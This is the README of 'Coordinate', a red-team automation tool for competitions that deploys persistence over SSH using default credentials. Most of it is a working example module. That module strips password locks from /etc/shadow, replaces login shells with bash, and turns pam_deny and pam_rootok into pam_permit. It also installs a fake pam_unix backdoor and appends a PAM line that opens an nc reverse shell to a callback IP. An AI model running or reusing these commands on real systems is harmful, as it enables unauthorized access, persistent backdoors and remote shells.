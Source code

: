# Coordinate

Red team automation tool that runs many scripts in parallel on many remote boxes, assuming that you know the default creds. This is useful for deploying persistence mechanisms at minute zero in Red vs Blue competitions.

# Configuration

There are two parts to Coordinate-- the first is the config (`coordinate.toml`), which specifies targets, default creds, and modules to employ. 

The second part is the modules, which contain the scripts and logic to run through Coordinate.

Here is an configuration example for `coordinate.toml`:

```toml
NoTTY = false
ConnectionsPerBox = 1 # default to 3
# One callback IP/hostname  be randomly chosen every time we drop one
CallBackIps = ["192.168.1.12","hackerbox"] 

[[target]]

# Which IPs/hostnames and which modules to run on them
Ips = ["192.168.140.138","172.17.156.129"]
Modules = ["STARFOX",]

# Optional, will enable log deletion/cleanup/avoidance of noisy techs
Stealthy = true 

# Optional, will enable troll/annoying actions
Annoying = true 

# "Difficulty" level, default 0. Range 0-5 where lower is more difficult
Level = 3   

# Username and password combinations. Every permutation will be tried.
Username = ["root", "bob"] # User must be root or sudoer
Password = ["Password1!", "Password2@"]

[[target]]
Ips = ["10.20.X.11","10.20.X10.13"]
ReplaceX = "3-5" # if you have an X in the above, iterate through range here
Modules = ["ireul",]
Username = ["root", "vpxuser", "dcui"]
Password = ["Password1!",]

[[module]]
Name = "STARFOX"
Debug = true

[[module]]
Name = "ireul"
Enabled = ["trojan_hostd",]
```

# Modules

For Coordinate to work, the modules must be structured in a certain way. First, the name of the module passed must be the same as a folder at the same level of Coordinate. For example, if my module was `STARFOX`, our file struture might be something like:

```bash
├── coordinate
│   ├── coordinate
│   ├── coordinate.go
│   ├── coordinate.toml
│   ├── go.mod
│   ├── go.sum
│   ├── LICENSE
│   ├── output.go
│   ├── README.md
│   └── ssher.go
├── ireul
│   ├── backdoor.sh
│   ├── fake-passwd.sh
│   ├── LICENSE
│   ├── README.md
│   └── vmware-hostd.sh
└── STARFOX
    ├── drops
    │   └── fake_pam.c
    ├── iptables.sh
    ├── pam.sh
    └── README.md
```

The second assumption is that any module scripts will end in `.sh`. That's it for structure. 

Onto module contents. The name of each module is the name of the file without `.sh`. For logic, there is no persistent state across files or across modules. Every file is interpreted at the same time it's executed. With that in mind, let's take a look at what `pam.sh` might look like:

```bash
# This is metadata about the file. DESC has no impact on the execution
# of the file, since it's not a keyword, and thus acts like any other comment.
#DESC PAM Backdoors

# Any line starting with an octothorpe (#) without being a directive
# is treated as a comment, like this line.

# LEVEL specifies how "difficult" this mechanism is to detect and counter, 
# so that a red teamer may be able to scale back the difficulty of the techs 
# they're deploying. Lower is more difficult, where 0 is incredibly tough 
# (e.g., well written rootkit) and 5 is trivial (e.g., added user).
# This defaults to 0 if it is not specified.
#LEVEL 2

# These are the commands actually executed. In this case, it is removing the 
# "passwords" for locked accounts, and permitting empty passwords in PAM's
# common-auth file for Debian-based systems.
sed -ie "s/*//g" /etc/shadow
sed -ie "s/\!//g" /etc/shadow
cp -f /bin/bash /bin/false
cp -f /bin/bash /usr/sbin/nologin

if [ -d "/etc/pam.d/common-auth" ]; then
    sed -ie "s/nullok_secure/nullok/g" /etc/pam.d/common-auth
fi

# Let's say that you have multiple ways to accomplish some task, e.g., 
# circumventing PAM authentication. Roulettes will allow you to randomly
# select one of these techniques to execute. Sinci the script is interpreted
# line by line, this directive must also include how many roulette options there
# are. Alternatively, you can use the #ROLL directive to have a 1-in-X chance
# of running some block, which is another type of roulette.
#STARTROULETTE 3
#ROULETTE

# These commands allow authentication and substituting users if it's to the
# root account.
sed -ie "s/pam_rootok.so/pam_permit.so/g" /etc/pam.d/common-auth
sed -ie "s/pam_rootok.so/pam_permit.so/g" /etc/pam.d/su

#ROULETTE

# Instead of denying unsuccessful PAM authentication attempts, permit them.
sed -ie "s/pam_deny.so/pam_permit.so/g" /etc/pam.d/common-auth

#ROULETTE

# Replace pam_deny.so with pam_permit.so for Debian-based systems
cp -f /lib/x86_64-linux-gnu/security/pam_permit.so \
    /lib/x86_64-linux-gnu/security/pam_deny.so

# This signifies the end of the roulette sections.
#ENDROULETTE

# With this ROLL, we will have a 1-in-3 chance to run that block.
#ROLL 3
# Let's say that you've written code for a fake PAM shared object that allows
# one master password, as a backdoor. You can drop files with the #DROP 
# directive. This assumes that your files are within $MODULE_PATH/drops.
#DROP fake_pam.so /tmp/systemd-cache

# Which you can then interact with using normal commands on the remote system.
gcc /tmp/systemd-cache -o /tmp/systemd-cache-compiled
cp -f /tmp/systemd-cache-compiled /lib/x86_64-linux-gnu/security/pam_unix.so

# This ends the #ROLL block.
#ENDROULETTE

# If you want to see the output of a command, you can tell Coordinate to wait
# for it with the #OUTPUT directive.
#OUTPUT cat /etc/os-release

# If you want to take some conditional action based on the output of a command,
# but you want it to affect meta-tags/directives, you can use IFCMD. This is
# slower than using native if/else/fi within the shell.
#IFCMD cat /etc/password | grep "bob"

# You can print to the terminal with "red" or negative messages, or "green" or
# positive messages.
#PRINT_RED Bob is still on their system!

# Again, unlike native execution control, these directives control whether or
# not Coordinate will process a directive. In this example, if the string 'bob'
# is found in /etc/passwd, Coordinate will print the red message above. 
# Otherwise, it will print the message below.
#ELSE

#PRINT_GREEN Bob has been removed! Good job blue team!

#ENDIF

# If you wanted to drop a callback/reverse shell script, you can use the text 
# '#CALLBACK_IP' and Coordinate will replace it with a configured callback IP.
echo "auth required pam_exec.so nc #CALLBACK_IP 4444 -e /bin/bash" >> \
    /etc/pam.d/common-auth
```
